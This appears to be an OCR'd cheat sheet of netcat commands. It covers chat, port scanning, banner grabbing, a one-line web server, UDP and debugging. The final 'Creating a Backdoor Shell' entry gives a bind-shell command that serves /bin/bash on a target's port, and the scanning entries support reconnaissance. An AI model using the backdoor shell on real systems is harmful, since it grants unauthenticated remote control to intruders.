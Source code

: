 - **Chat Application**
  ```
  # On one machine, set up to listen
  nc -l 1234

  # On another machine, connect to the listener
  nc [first machine's hostname or IP address] 1234
  ```

- **Port Scanning**
  ```
  # Scan ports of a remote host
  nc -zv [hostname] [port range]
  # Example: nc -zv example.com 20-30
  ```

- **Banner Grabbing**
  ```
  # Grab the banner of a service running on a port
  nc -v [hostname] [port]
  # Example: nc -v example.com 22
  ```

- **Creating a Simple Web Server**
  ```
  # Serve a single file on HTTP port
  { echo -ne "HTTP/1.0 200 OK\r\n\r\n"; cat index.html; } | nc -l 80
  ```

- **Using Netcat for UDP**
  ```
  # Listen on a UDP port
  nc -lu [port]

  # Connect to a UDP port
  nc -u [hostname] [port]
  ```

- **Network Debugging**
  ```
  # Using Netcat to test TCP connections, check if a port is open
  nc -zv [hostname] [port]

  # Echo service to return what you type, useful for debugging
  nc -l -p [port] -e /bin/cat
  ```

- **Creating a Backdoor Shell**
  ```
  # On the target machine, listen for a connection
  nc -lvp [port] -e /bin/bash

  # On your machine, connect to the target
  nc [target IP address] [port]
  ```

